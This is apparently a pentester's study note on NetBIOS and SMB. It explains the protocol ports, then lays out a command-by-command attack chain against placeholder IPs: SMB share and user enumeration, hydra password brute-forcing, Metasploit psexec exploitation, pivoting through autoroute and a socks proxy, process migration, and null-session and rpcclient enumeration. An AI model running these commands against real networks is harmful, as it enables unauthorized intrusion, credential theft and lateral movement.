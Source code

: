 
# NetBIOS (Network Basic Input Output System) 

is the service that allows Windows Systems to share files, folders and printers among machines on a LAN.


* Flow

PC's on a NetBIOS LAN communicate either by establishing a session or by using datagrams. To to This , NetBIOS uses the following TCP and UDP Ports.
  * UDP 137 for name services
  * UDP 138 for datagram services
  * TCP 139 for session services

---
* Name service

has the same purpose of a DNS record, it translates and maps a NetBIOS name to an IP (16-byte).
[NetBIOS Reference](https://technet.microsoft.com/en-us/library/cc738412(v=ws.10).aspx)

---

* Datagram Service 

The datagram service allows the sending and receiving of the datagram messages to and from:
  * a specific NetBIOS name
  * broadcast the datagram to all NetBIOS names

---

* Session service

The NetBIOS Session Service (NBSS) is the most commonly known of the NetBIOS services. It allows two names to establish a connection in order to exchange data.

---

* Server Message Block (SMB)

SMB lets you shares files , disks, directories, printers.

---

* How to enum NetBIOS & Pivoting

1-Gather information about target

> nbtstat -A 192.168.x.x

2-list domains, computers and resources shared by a computer in the network. 

> smbclient -L 192.168.x.x

> smbclient //192.168.x.x/folder

3- Get SMB users

> nmap  --script smb-enum-users.nse  192.168.x.x

4- After list all users 

> hydra -L users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.168.x.x smb

5- After getting the password use metasploit 

> use exploit/windows/smb/psexec

> set RHOSTS 192.168.x.x

> set SMBUser administrator

> set SMBPass password

> exploit

6- After get meterpreter session , the following can add route to the specific IP **(Pivoting)**

> run autoroute 192.168.x2.x2/20

7- Start the socks proxy server to access the pivot system on the attacker's machine using the proxychains tool.

> cat /etc/proxychains4.conf                          (check the proxy port)

![image](https://user-images.githubusercontent.com/73122852/231012959-a2223c61-e9fa-4bfc-9c52-b29427526f36.png)

> background                                       (to run the current session in the backgroud)

> use auxiliary/server/socks_proxy

> show options

> set SRVPORT PORTHere

> set VERSION 4a 

> exploit

> jobs                                                  (to see the current jobs)

![image](https://user-images.githubusercontent.com/73122852/231013241-6174b314-59c1-4524-99d4-b65d54ade603.png)

8- Now we can run nmap to scan the filterd ports

> proxychains nmap 192.168.x2.x2 -sT -Pn -sV -p 445

9- trying to move to the second target

> net view 192.168.x2.x2

if that failed that because we need privilege, So back to meterpreter

> migrate -N explorer.exe

> net view 192.168.x2.x2


---

* Null Session

is the one of the oldest and most known attacks performed on Windows 2000 and Windows NT environments. Thanks to this weakness, malicious users are able to establish a connection to the victim in order to gather information such as shares, users, groups, registry keys and much more.

Null sessions rely on Common Internet File System (CIFS) and Server Message Block (SMB) API, that return information even to an unauthenticated user.

> net use \\192.168.x.x\IPC$ "" /u:""

> smbclient //192.168.x.x/folder      with anonymous username and password

also using smbclient .

---

* Enum4linux

basically a wrapper around rpcclient , net , nmblookup and smbclient. That can gather (Target information , Workgroup/domain , Share Enum , Password Policy , Groups ,Domain SID , Users , Printer Info)

> enum4linux 192.168.x.x

---

* Rpcclient

a tool that can execute Microsoft RPC (Remote Procedure Call) functionalities.

> rpcclient -N -U "" 192.168.x.x

Then Use enumdomusers to list all users.

![image](https://user-images.githubusercontent.com/73122852/230804850-70ed025e-9a90-49e3-b352-a14f1fff68f2.png)








